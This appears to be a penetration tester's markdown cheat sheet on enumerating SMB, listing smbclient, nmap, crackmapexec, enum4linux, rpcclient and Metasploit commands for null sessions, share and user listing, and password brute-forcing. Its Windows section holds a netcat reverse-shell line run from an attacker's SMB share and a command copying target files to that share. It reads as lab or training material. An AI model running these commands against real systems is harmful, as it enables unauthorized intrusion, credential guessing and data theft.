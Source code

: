 




# enumerating SMB 
```bash

# smbclient
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth
echo exit | smbclient -L \\\\[ip]
smbclient \\\\[ip]\\[share name]

# flags
-L # list
-U # user
-U '' # Null auth
-N # no pass
-U # Username
get flag_1 - # read file

# Others

Enumerate Hostname : nmblookup -A [ip] 

nmap --script smb-enum-shares -p 139,445 [ip] # Or smbb-enum-users

nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 

nmap --script smb-protocols -p 139,445 [ip] # Check for Vulnerabilities - 

smbmap -H [ip/hostname]

smbmap -u guest -p "" -d . -H IP


smbmap -H [ip/hostname]

Overall Scan - enum4linux -a [ip] 

smbver.sh [IP] (port) [Samba] # Manual Inspection
nmblookup -A <Target IP>
rpccclient -U "" -N IP
# Inside rpc
srvinfo # check info about target
enumdomusers # check users
lookupnames NAME # check for user 
enumdomgroups




```

## Password policy enum

```
crackmapexec smb 10.129.95.210 --pass-pol 
crackmapexec smb 10.129.95.210 --pass-pol -u  '' -p '' ##null login
crackmapexec smb 10.129.95.210 --pass-pol -u 'USER' -p 'PASS'
```




# SMB server

```bash
smbserver.py NAME $(pwd) -smb2support -user USER -password password # share current directory with the name NAME
smbserver.py share DIRECTORY # Start Smbserver named share with no creds
```
## windows
```


# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT

# Send files from target to our smb

copy FILE \\10.10.10.10\share\
```





# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
use axuilary/scanner/smbb/smb_login # bruteforce 
```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```




### Nmap 


```bash
nmap --script smb-vuln* -p 139,445 [ip]
nmap --script smb-enum-shares <IP>
nmap --script smb-enum-users <IP>
nmap -p445 --script smb-brute --script-args userdb=users.txt,passdb=passwords.txt <target>  
```

## samrdump.py (Impacket )
```bash
samrdump <IP>
```


# Windows
![[Pasted image 20221123164201.png]]

This tells Windows to connect to IPC$ by using empty username and password
```powershell
NET USE \\<Target IP>\IPC$ '' /u:''
```

## Enum

```powershell
enum -S <IP>





-S # Enumurate shares
-U # enumurate users
-P # Check for password policy
```

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>


## winfo
```powershell
winfo <IP> -n 

-n # Null attack
```

# Metasploit

```ruby

use auxiliary/scanner/smb/smb_version # check version

use auxiliary/scanner/smb/smb_enumusers # enumurate users 

use auxiliary/scanner/smb/smb_shares # enumurate shares 
set sharefiles true

use auxiliary/scanner/smb/smb_login # bruteforce login 
# Metasploit
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor 
```

